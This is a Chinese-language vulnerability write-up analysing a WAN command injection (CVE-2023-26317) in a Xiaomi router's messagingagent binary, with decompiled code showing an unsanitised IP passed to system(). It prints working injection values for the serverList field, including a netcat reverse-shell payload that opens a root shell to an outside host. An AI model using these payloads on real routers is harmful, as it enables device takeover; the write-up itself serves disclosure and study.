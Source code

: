 之前，我们研究了 LAN 接口，其中攻击者必须位于网络内部。我们的下一步是分析通过 WAN 接口进行外部攻击的可能性。

在拦截 WAN 通信时，我们注意到路由器发出了不同的请求。其中一个请求似乎特别有趣：对https://eu.api.miwifi.com/miwifi-broker/list.我们手工重现它，看看答案是什么样的。

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/10-1711605277.png)

**二进制/usr/bin/messagingagent- 命令注入 (CVE-2023-26317)**

我们假设此 GET 请求用于检索MQTT[ 服务器](https://cn-sec.com/archives/2611064.html#) IP，以便将来在路由器内进行通信。 IP 列表非常有趣，在看到一些二进制文件如何通过 直接将元素作为参数传递给其他二进制文件之后system()，我们直觉地认为这个 IP 列表可能会作为参数传递给某个二进制文件。因此我们可以尝试在这里盲目地注入命令。

由于 HTTP 流量未加密且可以修改，我们拦截了请求并尝试注入;reboot;......serverList然后路由器重新启动！

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/4-1711605278.png)

对于 bash 注入，我们决定更进一步，演示可以使用netcat( nc 192.168.0.1 4343) 进行外部连接的注入。再次强调，该漏洞利用的唯一操作是拦截和修改传出的 HTTP 请求，这相对简单。

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/9-1711605279.png)

此外，通过有效负载：serverList=192.168.2.5;rm -f /tmp/f;mknod /tmp/f p;echo 'cat /tmp/f|sh -i 2>&1|nc 192.168.0.1 4242 >/tmp/f' > revshell.sh;chmod 777 revshell.sh; sh revshell.sh;:1883，我们可以从 WAN 上的路由器上弹出 root shell：

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/2-1711605280.png)

现在，让我们看看这个错误是从哪里来的。

二进制文件/usr/bin/messagingagent包含对 的请求https://eu.api.miwifi.com/miwifi-broker/list：URL 是使用文件构建config_api的/usr/share/messaging.conf。

```
key_file = /usr/share/messaging/serverkey_2.pubpush_channel = xqpcconfig_api = /miwifi-broker/listregister_device_api = /register_devicemiwifi_service_ips = 183.84.5.44,58.83.177.108
```

此请求返回以下形式的字符串：serverList=[IP]:[PORT],...。此 HTTP 响应的解析函数位于ma_app_context_update_conn_data处的函数中0x408698。在解析过程中，只需从响应中删除IP和PORT并将其连接到传递到函数中的字符串system。此方法的问题system在于命令可以轻松注入，因此参数注入IP会导致操作系统命令注入。

```
int32_t ma_app_context_update_conn_data(void* arg1){    [...]    // Here we can see the split with ",": ["3.127.110.152:1884", "3.127.110.143:1883", "3.127.110.152:1883"]    int32_t* configs_split = ma_str_split(*(int32_t*)((char*)arg1 + 0x18), ",");    int32_t nb_configs = ma_str_array_size(configs_split);    if (nb_configs == 0)    {        trap(0);    }     // Here a split with ":": ["3.127.110.152", "1884"]    int32_t* ip_port_split = ma_str_split(configs_split[(v0_6 % nb_configs)], ":");    if (ma_str_array_size(ip_port_split) != 2)    {        printf("[MQTT ERROR %d %s:%d]: Bad broker list: %sn", time(0), "/ma_app_context.c", 0xae, *(int32_t*)((char*)arg1 + 0x18));        fflush(stdout);    }    else    {        char* broker_ip = *(int32_t*)ip_port_split;        int32_t broker_port = atoi(ip_port_split[1]);        int32_t fd = fopen("/tmp/state/messagingagent", "w");        void* a0_25;        if (fd == 0)        {            printf("[MQTT ERROR %d %s:%d]: Unable to open /tmp/state/messagingagentn", time(0), "/ma_app_context.c", 0x130);            fflush(stdout);            a0_25 = *(int32_t*)((char*)arg1 + 0x3c);        }        else        {            if (fprintf(fd, "%s:%d", broker_ip, broker_port) < 0)            {                printf("[MQTT ERROR %d %s:%d]: Unable to update /tmp/state/messagingagentn", time(0), "/ma_app_context.c", 0x134);                fflush(stdout);            }            fclose(fd);            char command[0x30];            // Command injection here using the IP field            sprintf(&command,                    "/sbin/uci set /etc/config/messaging.deviceInfo.BROKER_HOST=%s",                    broker_ip);            system(&command);            sprintf(&command,                    "/sbin/uci set /etc/config/messaging.deviceInfo.BROKER_PORT=%d",                    broker_port);            system(&command);            system("/sbin/uci commit /etc/config/messaging");    [...]
```
